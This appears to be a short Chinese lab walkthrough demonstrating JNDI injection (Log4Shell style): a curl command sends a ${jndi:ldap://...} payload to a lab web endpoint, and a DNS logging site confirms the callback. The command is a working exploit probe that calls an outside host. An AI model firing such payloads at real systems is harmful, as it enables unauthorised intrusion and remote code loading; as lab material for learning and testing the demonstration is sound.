 利用下面的命令进行jndi注入

```bash
curl -X GET http://192.168.76.128:9460/hello?payload=$%7Bjndi:ldap://sbhd8t.dnslog.cn/exp%7%0A
```

![jndi注入](img/jndi注入.png)

注入成功后可以在DNS网站检测到有结果反馈

![注入成功](img/注入成功.png)
